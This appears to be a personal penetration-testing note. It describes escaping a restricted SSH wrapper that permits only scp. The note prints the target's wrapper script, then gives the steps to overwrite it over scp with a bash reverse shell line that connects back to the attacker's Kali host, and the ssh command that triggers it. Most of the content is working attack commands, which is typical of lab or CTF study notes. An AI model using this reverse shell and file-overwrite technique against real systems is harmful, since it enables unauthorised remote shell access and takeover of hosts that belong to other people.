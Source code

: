 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Overwrite files on target (sshd_config)

Source code retrieved from target:

```
#!/bin/bash

case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Notice "scp" is just a system command, so let's replace that line with a reverse shell:

```bash - kali
bash -i >& /dev/tcp/$KALI/443 0>&1
```

```bash - kali
scp -i id_rsa ../scp_wrapper.sh $USER@$TARGET:/home/$USER
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```
